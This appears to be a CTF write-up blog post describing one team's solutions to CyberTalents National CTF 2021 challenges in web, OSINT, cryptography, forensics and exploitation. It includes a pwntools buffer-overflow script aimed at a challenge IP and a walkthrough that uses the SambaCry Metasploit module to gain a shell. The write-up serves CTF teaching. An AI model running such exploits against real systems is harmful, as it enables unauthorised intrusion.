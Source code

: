 ```yaml
---
title: "CyberTalents National CTF"
author: "Trevor saudi"
date: 2021-09-12T11:01:27.242Z
lastmod: 2022-05-24T14:32:06+03:00

description: ""

subtitle: "My team and I recently took place in the CyberTalents National CTF 2021 where we emerged 1st in Kenya :) We managed to solve all…"

image: "/posts/2021-09-12_cybertalents-national-ctf/images/1.png" 
images:
 - "/posts/2021-09-12_cybertalents-national-ctf/images/1.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/2.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/3.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/4.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/5.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/6.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/7.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/8.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/9.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/10.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/11.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/12.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/13.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/14.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/15.png"


aliases:
    - "/cybertalents-national-ctf-68f38cf7db2a"


tags:
- Forensics
- Web
- BOF
---
```


![image](/posts/2021-09-12_cybertalents-national-ctf/images/1.png#layoutTextWidth)


My team and I recently took place in the CyberTalents National CTF 2021 where we emerged 1st in Kenya :) We managed to solve all challenges but one. Here are some of the writeups for the challenges we solved

Since the challenges are down, I will try my best to reconstruct the solutions

### Argos-web 50 pts

Argos was an ‘easy’ rated challenge, well some may tend to disagree :) This challenge was solved by @[k0imet](https://twitter.com/k0imet_)

First step involved a directory bruteforce on the challenge link, which gave us a directory **java.php .** This page contained some obfuscated javascript that handled the authentication.

```javascript
'use strict';

function _0x267a(_0x29ae1d, _0x59beb8) {
  var _0x2dca0b = _0x2dca();
  return _0x267a = function (_0x267a3d, _0x79f9b7) {
    _0x267a3d = _0x267a3d - 0x116;
    var _0x4cbcf2 = _0x2dca0b[_0x267a3d];
    return _0x4cbcf2;
  }, _0x267a(_0x29ae1d, _0x59beb8);
}
var _0x18eaa6 = _0x267a;

function _0x2dca() {
  var _0x4a962f = ['556864LePYhO', '93KGoDMv', 'wrong\x20Password', '14665ltxznd', '41121RGIWyS', '50236HEZbSV', '75OrlJRv', '260kpgQAa', '1316543gDJbid', '80096jdpdhM', 'value', '318iCKAiJ', '17205968dLvimS', 'getElementById', 'CT2021', '12SXIKHp', '232oiseyT'];
  _0x2dca = function () {
    return _0x4a962f;
  };
  return _0x2dca();
}(function (_0x59e2bc, _0x3b27b9) {
  var _0x3463b2 = _0x267a,
    _0x486916 = _0x59e2bc();
  while (!![]) {
    try {
      var _0x4861c6 = -parseInt(_0x3463b2(0x120)) / 0x1 + -parseInt(_0x3463b2(0x11d)) / 0x2 * (parseInt(_0x3463b2(0x119)) / 0x3) + -parseInt(_0x3463b2(0x121)) / 0x4 * (-parseInt(_0x3463b2(0x11e)) / 0x5) + -parseInt(_0x3463b2(0x123)) / 0x6 * (-parseInt(_0x3463b2(0x11b)) / 0x7) + -parseInt(_0x3463b2(0x117)) / 0x8 * (parseInt(_0x3463b2(0x11c)) / 0x9) + parseInt(_0x3463b2(0x11f)) / 0xa * (parseInt(_0x3463b2(0x118)) / 0xb) + -parseInt(_0x3463b2(0x116)) / 0xc * (-parseInt(_0x3463b2(0x124)) / 0xd);
      if (_0x4861c6 === _0x3b27b9) break;
      else _0x486916['push'](_0x486916['shift']());
    } catch (_0x3e62db) {
      _0x486916['push'](_0x486916['shift']());
    }
  }
}(_0x2dca, 0xc909d));
var _0xae5b = [_0x18eaa6(0x122), 'user', _0x18eaa6(0x125), 'pass', _0x18eaa6(0x126), '\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20Congratz\x20\x0a\x0a', _0x18eaa6(0x11a)];

function check() {
  var _0x105bf3 = document[_0xae5b[0x2]](_0xae5b[0x1])[_0xae5b[0x0]],
    _0xe27d13 = document[_0xae5b[0x2]](_0xae5b[0x3])[_0xae5b[0x0]];
  _0x105bf3 == _0xae5b[0x4] && _0xe27d13 == _0xae5b[0x4] ? alert(_0xae5b[0x5]) : alert(_0xae5b[0x6]);
};
```

The important function to look at is **check**. Towards the end a comparison is made and an alert is given. The alert was the error message shown if the login was correct or incorrect. We also have an array of strings and in the array is a string called ‘CT2021’

This [writeup](https://hackersdad.medium.com/cybertalents-ctf-this-is-sparta-write-up-adb1fd0263e9) has a similar challenge and we can find out which variables are being passed. CT2021 was the user and pass for the website, which upon login gives us the flag.

### Missing person-osint 50 pts

In this challenge we had trace the most recent online activity of a missing person. We were given this [https://bitly.com/3frKIAX](https://bitly.com/3frKIAX) link which led us to a twitter account with protected tweets.

![image](/posts/2021-09-12_cybertalents-national-ctf/images/2.png#layoutTextWidth)


From the new twitter url [https://twitter.com/rzsdw2iwug77eda/status/1394223468003176455](https://twitter.com/rzsdw2iwug77eda/status/1394223468003176455)

We can spot the username [**rzsdw2iwug77eda**](https://twitter.com/rzsdw2iwug77eda/status/1394223468003176455)**.** So immediately my mind went to [sherlock](https://github.com/sherlock-project/sherlock).

![image](/posts/2021-09-12_cybertalents-national-ctf/images/3.png#layoutTextWidth)


We get a pastebin, with a date

![image](/posts/2021-09-12_cybertalents-national-ctf/images/4.png#layoutTextWidth)


So apparently this is a red herring. This date wasn’t the user’s most recent activity.

After thinking for a while. I decided to try and trace when the bit.ly was created. My [teammate](https://twitter.com/k0imet_) ended up uncovering the trick. By adding a ‘+’ to the end of the bit.ly link you can trace when it was first created. The date here was the solution

![image](/posts/2021-09-12_cybertalents-national-ctf/images/5.png#layoutTextWidth)


### Laggy Decoder-secure coding 100pts

In this challenge, we needed to fix the source code provided. The data being passed to the function was not being sanitized and one could achieve some XSS

Modify the utils file to . Submitting the modified code gives us the flag

![image](/posts/2021-09-12_cybertalents-national-ctf/images/6.png#layoutTextWidth)


### 64rev-cryptography 100pts

This solution was curated by @[k0imet](https://twitter.com/k0imet_) and @[mystickev](https://twitter.com/mystic_kev) . We are given a base64 encode string 
```
fdXU1Z2hSRwIzaHAxQ8zcjNIX3MxNUdqaWRmPT09XiNUdqaWRmPT09XihkZCUtVGhncz8lHJmIzmh1dGRyZ0Zmd2dlfV8zcjNIX3MxX3IzaHAxQ18zNXIzdjNSXzNscG0zNV97Z2FsZgZGRmNVxQ18zanNnaGZkYWhocaWRmPT0TWNkc2hdXU1Z2hSRwIzaHAxQ8zcjNIX3MxNfV9fM3IzSF9zMV9yM2hwMUNfMzVyM3YzUl8zbHBtMzVfX3tnYWxm==
```
Using cyberchef to decode , you can pick out bits of the flag in the output i.e 1s_H3r3

![image](/posts/2021-09-12_cybertalents-national-ctf/images/7.png#layoutTextWidth)


So our goal is to remove noise from the base64 string by removing some chunks of bytes. Removing fd at the beginning and == at the end

![image](/posts/2021-09-12_cybertalents-national-ctf/images/8.png#layoutTextWidth)


We get 2 flags. One of them was the answer

### Red pipe -machines 100pts

For this challenge, we are given an IP for a machine. We need to gain a shell and get the flag.

![image](/posts/2021-09-12_cybertalents-national-ctf/images/9.png#layoutTextWidth)


From the challenge name I suspected the solution would involve pipes. So I google the samba version of the nmap results

![image](/posts/2021-09-12_cybertalents-national-ctf/images/10.png#layoutTextWidth)


So our vuln was the is_known_pipename() from SambaCry. Luckily metasploit has this module

![image](/posts/2021-09-12_cybertalents-national-ctf/images/11.png#layoutTextWidth)


We get a shell

![image](/posts/2021-09-12_cybertalents-national-ctf/images/12.png#layoutTextWidth)


### Roony-forensics 100pts

This was a simple forensics challenge that required us to utilize a registry explorer tool to find the most recent executed application

After tons of googling. I found a tool called Registry Explorer that could simplify the solution. All I needed to do was supply a registry key to navigate the file hierachy as follows

Load the hive file

![image](/posts/2021-09-12_cybertalents-national-ctf/images/13.png#layoutTextWidth)


Interact with the hive file to get an overview of the file hierachy

![image](/posts/2021-09-12_cybertalents-national-ctf/images/14.png#layoutTextWidth)


Use the registry key — ‘recent file list’ to get the most recent executed application

![image](/posts/2021-09-12_cybertalents-national-ctf/images/15.png#layoutTextWidth)


The flag was gpedit.msc

### Ch4nger —Exploitation 50 pts easy

This solution was curated by my teammate @[gilbert](https://twitter.com/BinaryChunk). It is a simple buffer overflow challenge where we need to overwrite the return address with _0x_deadbeef

We can solve the challenge using pwntools as follows
```python3
#!/usr/bin/python3

from pwn import * 


filename = "./chall"

#io = process(filename)
io = remote("3.122.102.231", 6666)
context.clear(arch="i386")

def main():
	payload = b"A"*200 + p32(0xdeadbeef)
	io.sendline(payload)
	flag = io.recvline().decode().strip()
	log.info("The final flag is: \n\t %s" % flag)

if __name__ == "__main__":
	main()
```



These were the tricky challenges in the CTF and I hope you learned a thing or two. Follow like and share if you enjoyed :)

